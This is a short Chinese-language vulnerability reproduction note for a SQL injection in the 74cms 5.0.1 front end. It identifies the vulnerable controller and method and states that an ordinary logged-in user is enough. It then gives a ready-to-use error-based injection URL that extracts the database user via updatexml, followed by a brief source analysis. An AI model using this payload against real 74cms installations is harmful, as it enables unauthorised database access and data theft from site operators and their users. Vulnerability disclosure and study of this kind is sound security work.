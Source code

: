 # 74cms v5.0.1 前台sql注入

### 一、漏洞简介

74cms 5.0.1 前台AjaxPersonalController.class.php存在SQL注入

### 二、漏洞影响

### 三、复现过程

具体信息

文件位置：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

方法：function company_focus($company_id)

是否需登录：需要

登录权限：普通用户即可

Payload:


```bash
http://url/74cms/5.0.1/upload/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a
```

![](images/15897262837279.png)


源码分析：

文件：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

company_focus 方法是参数化函数，$company_id参数是不经过I函数过滤的，所以只要where可以控制，那就可以注入

![](images/15897262925667.png)


跟踪add_focus(),发现SQL语句参数外部都可以控制，导致了注入漏洞

![](images/15897262987324.png)
